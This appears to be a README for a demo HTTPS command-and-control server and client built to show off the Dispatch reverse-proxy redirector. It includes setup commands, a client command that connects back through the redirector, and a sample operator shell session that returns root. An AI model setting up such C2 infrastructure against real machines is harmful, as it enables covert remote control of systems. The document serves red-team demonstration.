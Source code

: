# Dispatch Redirector Demo

## Overview
The following code provides a sample C2 over HTTPS to demonstrate Dispatch's Reverse Proxy functionality.

- Accepts connections multiple from clients
- Routes traffic through front-end proxies (e.g., NGINX, CDN)
- Maintains secure communication over HTTPS
- Provides an interactive operator shell for issuing commands


## 🛠️ Dispatch Setup
### 1. General SSL Cert & Start the Server
```bash
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
python3 server.py --host <bind_host> --port <bind_port>
```

### 2. Setup Dispatch routes to redirect client traffic
<img height="400" alt="rProxy" src="https://github.com/user-attachments/assets/508adf2c-33f6-4088-a800-93d4a597c074" />


### 3. Start the client directing it at Dispatch redirector
```bash
 python3 client.py --url https://<dispatch_server>
```

### 4. Interact with connected clients
```bash
[!] New client registered: client-1 (192.168.1.100)
(server) > interact client-1
[*] Entering session with client-1. Type 'bg' to return.

(client-1) > whoami
[+] Response from client-1:
root
```
